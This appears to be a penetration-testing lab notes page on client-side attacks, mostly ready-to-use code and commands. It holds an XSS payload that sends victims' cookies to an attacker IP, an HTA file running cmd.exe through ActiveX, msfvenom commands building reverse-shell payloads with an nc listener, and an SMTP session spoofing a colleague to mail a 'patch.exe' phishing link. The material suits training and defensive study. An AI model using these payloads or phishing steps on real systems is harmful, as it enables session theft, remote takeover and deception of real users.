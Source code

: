 # Client-Side Attacks

## <mark style="color:red;">Cross-Site Scripting XSS</mark>

A useful payload to catch users cookie

```javascript
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
```

## <mark style="color:red;">HTA Exploit</mark>

In this example, we will utilize ActiveXObjects, which can potentially allow access to underlying operating system commands, making it a dangerous technique. This can be achieved through the Windows Script Host functionality, specifically using the Windows Script Host Shell object or WScript.&#x20;

Once the Windows Script Host Shell object is instantiated, we can use its run method to launch an application on the client machine we're targeting. However, when mshta.exe is executed, it keeps an additional window open behind the command prompt. To avoid this, we can modify our proof-of-concept by using the .close(); object method, as shown below:

```html
<html>
<head>
<script>
  var c= 'cmd.exe'
  new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>
  self.close();
</script>
</body>
</html>
```

We can save this code in a file (poc.hta) on our Kali machine and host it on the Apache web server. When a victim opens this file with Internet Explorer, they will be presented with a pop-up dialog as shown below:

<figure><img src="../.gitbook/assets/image (4).png" alt="" width="375"><figcaption></figcaption></figure>

The pop-up dialog is generated when the system attempts to execute an .hta file. If the user selects "Open," an additional dialog will appear:

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

The second dialog box appears because Internet Explorer's sandbox protection, also known as Protected Mode, is enabled by default. If the victim selects "Allow," the action is permitted, and the JavaScript code is executed, launching cmd.exe as shown below:

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

To convert our basic HTML Application into an attack, we will utilize msfvenom, which supports the hta-psh output format to generate an HTA payload that relies on PowerShell:

```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

If everything goes as expected, we should be able to capture a reverse shell.b

```
nc -lnvp 4444
```

## <mark style="color:red;">Phishing email 25 SMTP</mark>

Interact with SMTP server to send a phishing email:

```bash
nc -C 192.168.199.55 25                                                                                                
220 VICTIM Microsoft ESMTP MAIL Service, Version: 10.0.17763.1697 ready at  Tue, 21 Feb 2023 17:38:43 -0500 
ehlo all
250-VICTIM Hello [192.168.45.199]
250-TURN
250-SIZE 2097152
250-ETRN
250-PIPELINING
250-DSN
250-ENHANCEDSTATUSCODES
250-8bitmime
250-BINARYMIME
250-CHUNKING
250-VRFY
250 OK
mail from: rmurray@victim
250 2.1.0 rmurray@victim....Sender OK
rcpt to: tharper@victim
250 2.1.5 tharper@victim 
data
354 Start mail input; end with <CRLF>.<CRLF>
subject: urgent patch
http://192.168.45.199:80/patch.exe
.
250 2.6.0 <VICTIM0MoN0uyHFWZx700000002@VICTIM> Queued mail for delivery
```

msfvenom payload used to generate the patch.exe:

```bash
msfvenom -p windows/shell_reverse_tcp lhost=tun0 lport=443 -f exe > patch.exe
```
